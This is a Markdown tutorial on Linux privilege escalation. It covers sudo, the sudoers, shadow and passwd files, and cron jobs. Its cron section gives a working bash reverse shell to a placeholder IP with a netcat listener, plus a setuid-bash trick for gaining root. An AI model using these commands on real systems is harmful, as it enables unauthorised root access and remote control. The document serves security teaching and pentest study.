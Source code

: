 # Privileges Escalation - Linux

## Introductive notes
`sudo` is a command that can be used only by users specified in `/etc/sudoers` file (see the next paragraph). Everytime a user run commands preceded by `sudo`, he runs it as the **root user**.<br>
Other useful commands:
- `sudo -s` to become superuser (**root**).
- `sudo -u <user> <command>` to run a command impersonating the specified user.
- `su <user>` to switch between users (password needed).
- `whoami` to check the current user.
- `id` to get info about the current user.
- `sudo -l` to list commands and programs which the current user is allowed to run with `sudo`.

## /etc/sudoers file
- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user. 

  <img src="../imgs/sudoers.png" alt="sudoersImg" />

## /etc/shadow file
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.

  <img src="../imgs/shadow.png" alt="shadowImg" />

  That complex string between the first and second `:` is the hashed password of user "diego".
  - `mkpasswd -m <algorithm> <new password>` to generate a new hashed password and then replace it.

## /etc/passwd file
- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before.

  <img src="../imgs/passwd.png" alt="passwdImg" />

  That `x` means that any hash is set for user "diego."<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.

## /etc/crontab file
- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).

  <img src="../imgs/crontab.png" alt="crontab">

  Example of cron jobs scheduled to run **as root** every minute:
  
  <img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">
   
  - `compress.sh` script will be searched only in `/usr/local/bin` path, because it's explicit. 
  - `overwrite.sh` script will be searched in all paths specified in `PATH` variable, so: `/usr/local/sbin`, `/usr/local/bin`, `/usr/sbin`, `/usr/bin`, `/sbin` and `/bin`. If the shell (`sh` in this case) finds the script, it executes it.

  - If one of these **cron jobs are world-writable** and **you're not root**, it's possible to modify and exploit them. For example we could modify `overwrite.sh` with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - Then `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.<br><br>
  - If one of these **cron jobs are world-writable and searched in `/home/user` path** and **you're not root**, it's possible to modify and exploit them to gain a root shell in this way:
  ```
  #!/bin/bash
  cp /bin/bash /tmp/rootbash
  chmod +xs /tmp/rootbash
  ```
  - This script will copy the default `/bin/bash` shell to a temporary directory and will give it execution and suid permissions (it assumes the privileges of the user who owns the file, **root** in this case). In this way, we can run a root shell, so we escalated privileges!
